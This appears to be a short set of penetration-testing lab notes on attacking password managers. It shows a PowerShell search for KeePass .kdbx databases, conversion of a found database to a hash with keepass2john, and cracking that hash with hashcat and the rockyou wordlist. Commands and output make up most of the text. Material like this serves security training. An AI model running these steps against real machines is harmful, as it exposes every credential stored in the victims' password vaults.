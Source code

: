 # Password Managers



## Search For KeepPass Files

```bash
PS C:\Users\jason> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
    
    
    Directory: C:\Users\jason\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/30/2022   8:19 AM           1982 Database.kdbx
```



### Converting .kdbx to hash with keepass2john

<pre class="language-bash"><code class="lang-bash"><strong>kal@kali keepass2john Database.kdbx > keepass.hash   
</strong>
kali@kali:~/passwordattacks$ cat keepass.hash   
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
</code></pre>



### Running Hashcat

```bash
kali@kali:~/passwordattacks$ hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat (v6.2.5) starting
...
```
